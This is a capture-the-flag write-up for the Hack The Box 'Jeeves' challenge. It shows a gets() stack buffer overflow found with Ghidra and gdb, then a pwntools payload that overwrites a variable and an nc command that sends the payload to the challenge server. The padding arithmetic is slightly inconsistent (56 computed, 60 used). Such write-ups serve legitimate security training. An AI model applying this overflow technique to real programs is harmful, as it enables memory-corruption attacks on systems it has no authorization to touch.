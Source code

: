 ## Jeeves Hack the Box Challenge : Intro to Binary Exploitation

Lets try to check what the binary is doing and it seems to be a very simple binary just out putting the following  output and in the middle it asks for our name and then displays it with a greeting like so :

```bash
Hello, good sir!
May I have your name? a
Hello a, hope you have a good day!
```

Now lets analyze the file in Ghidra to see what its actually doing.

![Ghidra Screenshot](./Images/ghidra.png)

Here it seems we need to overwrite the value of the variable i have renamed as variable to overwrite and this machine is using the gets function which is vulnerable to buffer overflow so we can try to overwrite the value to that certain point using the buffer overflow attack but to do lets first lets see if we can overwrite stuff. So transferring my application to gdb and running it with a 100 characters i get a segmentation fault and i can see that i can overwrite the variable :

```bash
gdb-peda$ r
Starting program: /home/nickapic/htb/challenges/jeeves
Hello, good sir!
May I have your name? aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, hope you have a good day!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x0
RDX: 0x0
RSI: 0x5555555592a0 ("Hello ", 'a' <repeats 100 times>, ", hope you have a good day!\n")
RDI: 0x7ffff7fa5670 --> 0x0
RBP: 0x6161616161616161 ('aaaaaaaa')
RSP: 0x7fffffffded8 ('a' <repeats 28 times>)
RIP: 0x5555555552ae (<main+197>:	ret)
R8 : 0xffffffff
R9 : 0x86
R10: 0x7fffffffde90 ('a' <repeats 100 times>)
R11: 0x246
R12: 0x555555555100 (<_start>:	endbr64)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10212 (carry parity ADJUST zero sign trap INTERRUPT direction overflow)
```

Now lets try to calculate how many values we gotta go over to get the our variable to overwrite.

We see there is 44 size buffer then an integer which is 4 bytes , then a pointer which is normally 8 bytes and then the int variable which we have to overwrite is 4 bytes so we will need to also add another 4 bytes this calculation to ```0x1337bab3```
So 44+4+8+4 = 56 bytes of padding and then the address. So we can also see that this is in little endian and for 64bit. So we can use soemthing like the pwn library to pack our 64 bit integer

Information about this : https://docs.pwntools.com/en/stable/util/packing.html?highlight=p64#pwnlib.util.packing.p64


```bash
python2 -c "import pwn; print('a'*60 + pwn.p64(0x1337bab3))" > input.txt
```

and then to get the flag we can use :

```bash
nc 139.59.162.195 30942 < input
```
